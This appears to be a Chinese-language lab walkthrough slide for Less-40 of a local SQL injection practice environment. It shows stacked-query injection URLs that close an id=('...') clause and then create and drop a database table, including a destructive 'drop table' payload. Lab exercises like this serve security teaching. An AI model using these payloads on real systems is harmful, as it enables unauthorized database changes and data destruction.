

# Less-40
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
与less38、39不相同的地方是这里的错误不会回显，但是不影响我们注入测试，而且我们将id修改为id=(‘ ’);
我们直接构造语句：
http://127.0.0.1/sqli/Less-40/?id=1'); create table crow like users; --+
然后在数据库中查看是否可以完成执行： show tables;
我们可以构造数据删除已经创建的表:
http://127.0.0.1/sqli/Less-40/?id=1'); drop table crow ; --+